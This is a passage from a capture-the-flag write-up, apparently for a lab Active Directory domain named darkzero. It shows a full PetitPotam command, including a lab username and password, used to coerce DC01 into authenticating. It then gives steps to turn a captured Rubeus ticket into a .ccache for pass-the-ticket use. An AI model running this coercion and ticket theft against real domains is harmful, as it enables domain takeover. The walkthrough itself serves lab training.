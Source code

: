 We have catched multiple `TGTs` like, DC01, svc_sql and even Administrator. We want to catch the TGT of `DC01` but sadly enough it didnt pop up. We can trigger it by using a tool called `PetitPotam`.

We use it by sending

`python3 /opt/tools/PetitPotam.py -d darkzero.htb -u 'john.w' -p 'RFulUtONCOL!' DC02.darkzero.ext DC01.darkzero.htb -pipe all`

for me it works more reliable then spamming `xp_dirtree`.

Now when we look back at Rubeus we see that a new Ticket has popped up!

![dc01](docs/25.png)

Now we will do a couple of things, at first.

Copy the `Base64EncodedTicket` and `nano` a .b64 file and place the value inside of it. Next run `base64 -d ticket.b64 > dc01.kirbi`. We turn it into a .kirbi so we can use `ticketConverter` to turn it into a .ccache. Now finally we use `ticketConverter.py dc01.kirbi dc01.ccache` and it returns us the .ccache that we will use for our `KRB5CCNAME`.
